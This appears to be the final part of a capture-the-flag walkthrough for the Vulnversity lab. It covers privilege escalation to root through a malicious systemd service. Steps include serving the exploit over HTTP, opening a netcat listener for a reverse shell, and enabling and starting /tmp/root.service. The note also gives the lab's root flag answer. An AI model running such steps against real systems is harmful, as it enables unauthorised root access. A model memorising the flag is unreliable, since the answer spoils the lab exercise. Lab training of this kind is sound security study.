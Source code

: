 2. **Start a server to host the exploit**
    ```bash
    python3 -m http.server 8087
    ```
    ![server](server.png)

3. **Download the exploit on the victim machine**  
   ![download](download.png)

4. **Set up a listener and trigger the exploit**
    - Start listener:  
      ```bash
      nc -nlvp 4444
      ```
    - Enable and start the malicious service:
      ```bash
      systemctl enable /tmp/root.service
      systemctl start root
      ```
    ![successfull](successfull.png)

    **Root shell acquired!**

    
    ![done](done.png)

---

## Root Flag

![flag captured](flagc.png)

**Question: 13** What is the root flag value?  
**Answer:** `a58ff8579f0a9270368d33a9966c7fd5`

---

---

## Finish Note

**Congratulations on completing the Vulnversity walkthrough! This exercise demonstrates essential techniques for reconnaissance, exploitation, and privilege escalation. Always remember to practice ethical hacking and use these skills responsibly.**

Happy hacking!

## Happy Hacking

<div align="center">
    <img src="https://user-images.githubusercontent.com/74038190/212284119-fbfd994d-8c2a-4a07-a75f-84e513833c1c.gif" alt="Live Demo" width="400"/>
</div>

